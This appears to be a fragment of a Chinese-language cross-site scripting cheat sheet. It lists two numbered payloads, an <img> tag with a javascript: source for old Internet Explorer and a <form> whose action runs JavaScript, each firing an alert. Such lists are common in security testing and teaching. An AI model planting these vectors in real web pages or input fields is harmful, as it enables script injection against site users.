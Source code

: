 ![images](/images/2019-03-23/xss19.png)

----

**3.** `<img>`标签  **IE7以下**

payload: `<img src=javascript:alert('xss')>` <br>

----

**4.** `<form>`标签

payload: `<form action="Javascript:alert(1)"><input type=submit>` <br>
